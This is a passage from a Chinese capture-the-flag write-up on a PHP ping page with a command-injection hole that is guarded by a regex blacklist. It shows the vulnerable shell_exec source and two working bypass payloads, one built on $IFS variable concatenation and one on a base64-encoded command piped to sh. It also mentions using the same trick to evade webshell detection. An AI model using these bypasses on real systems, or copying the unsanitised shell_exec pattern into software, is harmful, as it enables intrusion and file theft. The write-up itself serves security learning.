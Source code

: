 ```bash
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

知道了是怎么回事后，我们便可以根据具体的检测方式来进行 bypass，经过尝试后发现这里可以通过拼接实现绕过：

```bash
1;a=ag;b=fl;cat$IFS$1$b$a.php
```

[![](assets/1708998334-bd2e8916ddbd0b80e1400257d8483145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143804-4336fd22-d2df-1.png)  
备注：需要注意的是如果我们使用正常的次序进行拼接的时候会依旧被检查到，导致绕不过去，有点小奇怪，所以遇到此类问题不妨调转一下次序看看，这一点在之前进行 PHP 木马免杀的时候也很是有效

[![](assets/1708998334-28da5c33ba82bb85484ded02b6f56bf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224143820-4cb3cb6e-d2df-1.png)

**方式二：通过编码的方式实现绕过**

经过尝试我们也可以使用 base64 编码的方式来进行绕过：

```bash
GET /?ip=|echo$IFS$9Y2F0JElGUyQ5ZmxhZy5waHA=|base64$IFS$9-d|sh HTTP/1.1
Host: a7609141-d430-4e44-90b7-c7504683172b.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
